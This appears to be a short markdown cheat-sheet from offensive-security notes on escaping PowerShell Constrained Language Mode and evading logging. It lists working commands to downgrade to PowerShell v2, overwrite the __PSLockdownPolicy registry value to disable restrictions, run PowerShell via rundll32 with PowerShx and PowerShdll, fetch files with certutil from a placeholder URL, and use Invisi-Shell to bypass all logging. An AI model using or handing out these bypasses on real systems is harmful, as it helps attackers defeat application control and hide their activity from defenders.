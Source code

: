 ### Escapes for Constrained Language Mode
#### Launch Powershell Version 2
```
Powershell.exe -Version 2
```

#### Overwrite PSLockdownPolicy variable
- If CLM is not implemented correctly and is using __PSLockdownPolicy

#### Check the PSLockdownPolicy value
- Value 4 is enabled
- Value 8 is disabled
```
(Get-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name "__PSLockdownPolicy").__PSLockDownPolicy
```

#### Set lockdown policy to 8 and check language mode
- https://github.com/Metoraf007/Public_PowerShell/blob/master/Bypass_ConstrainedLang.ps1
```
Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name "__PSLockdownPolicy" -Value 8
powershell.exe
$ExecutionContext.SessionState.LanguageMode
```

### PowerShx
- https://github.com/iomoath/PowerShx
```
rundll32 PowerShx.dll,main -i 
PowerShx.exe -i  
```

### PowerShdll Run PowerShell with dlls only.
- https://github.com/p3nt4/PowerShdll
- Does not require access to powershell.exe as it uses powershell automation dlls.
```
rundll32 PowerShdll,main -i
```

#### Download files with certutil
- You can not use iwr but you can use certutil in constrained language mode
```
certutil -urlcache -split -f <URL>
```

#### Execute scripts
- It is possible to execute scripts on the filesystem but you can't load them!
- If applocker is there enumerate it to find a directory that lets you execute scripts in

## Logging evasion
#### Invisi-shell
- Bypasses all logging
- https://github.com/OmerYa/Invisi-Shell
- Type exit from the new PowerShell session to complete the clean-up.
